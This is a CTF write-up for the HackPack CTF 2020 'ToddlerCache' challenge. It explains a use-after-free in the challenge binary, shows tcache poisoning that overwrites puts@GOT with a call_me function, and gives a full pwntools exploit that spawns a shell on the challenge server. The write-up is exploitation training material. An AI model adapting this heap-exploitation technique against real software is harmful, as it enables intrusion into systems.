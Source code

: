 ```yaml
---
layout: post
title: HackPack CTF 2020 - ToddlerCache 
---
```


> Welcome to ToddlerCache (t-cache for short)
>
> nc cha.hackpack.club 41703
>
> Files: [repo][repo]

## Analysis

Binary info:

{% highlight shell_session %}
toddler_cache: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked,
interpreter ./glibc_, for GNU/Linux 3.2.0, BuildID[sha1]=8a818e222697b9ef5a06529650bc32282553f0bd, not stripped

Canary                        : ✓
NX                            : ✓
PIE                           : ✘
Fortify                       : ✘
RelRO                         : Partial
{% endhighlight %}

Executing binary shows us that we have abilities to create new records, write to them and free them.

{% highlight shell_session %}
Welcome parents, to the ToddlerCache (We're calling it t-cache for short and legal reasons)
This program is for you to record memories with your toddlers!
-- What would you like to do?
1.) New
2.) Write
3.) Free
4.) Quit
{% endhighlight %}

Decompiling binary shows that binary contains use-after-free vulnerability. We can free the chunk and then write to it.

To exploit this vulnerability we can malform tcache bin list by making one of the freed chunks point to the location that we want to overwrite.

{% highlight python %}
new()
free(0)
write(0, p64(exe.got["puts"]))
new()
{% endhighlight %}

We can that now that freed chunk points to puts in GOT section.

{% highlight shell_session %}
pwndbg> tcachebins
tcachebins
0x90 [  0]: 0x602020 ◂— ...
{% endhighlight %}

Allocating new chunk and writing to it address of `call_me` allows us to overwrite the address of `put@got` and spawn a shell.

{% highlight python %}
io.sendline("2")
io.recvuntil("> ")
io.sendline(str(2))
io.recvuntil("What would you like to write?\n")
io.send(p64(exe.functions["call_me"].address))

io.interactive()
{% endhighlight %}

## Full exploit 

{% highlight python %}
#!/usr/bin/env python3

from pwn import *

# Set up pwntools for the correct architecture
exe = context.binary = ELF('./toddler_cache')
libc = ELF("./libc-2.26.so")

host = args.HOST or 'cha.hackpack.club'
port = int(args.PORT or 41703)

def local(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug(["/lib64/ld-linux-x86-64.so.2", exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process(["/lib64/ld-linux-x86-64.so.2", exe.path] + argv, *a, **kw)

def remote(argv=[], *a, **kw):
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    if args.LOCAL:
        return local(argv, *a, **kw)
    else:
        return remote(argv, *a, **kw)

gdbscript = '''
continue
'''.format(**locals())


io = start()

def new():
    io.sendline("1")
    io.recvuntil("> > ")

def write(idx, data):
    io.sendline("2")
    io.recvuntil("> ")
    io.sendline(str(idx))
    io.recvuntil("What would you like to write?\n")
    io.send(data)
    io.recvuntil("> >")

def free(idx):
    io.sendline("3")
    io.recvuntil("> > ")
    io.sendline(str(idx))
    io.recvuntil("> >")

new()
free(0)
write(0, p64(exe.got["puts"]))
new()
new()

io.sendline("2")
io.recvuntil("> ")
io.sendline(str(2))
io.recvuntil("What would you like to write?\n")
io.send(p64(exe.functions["call_me"].address))

io.interactive()
{% endhighlight %}

[repo]: https://github.com/r0ck3tz/ctfs/tree/master/2020/hackpackctf/toddlercache

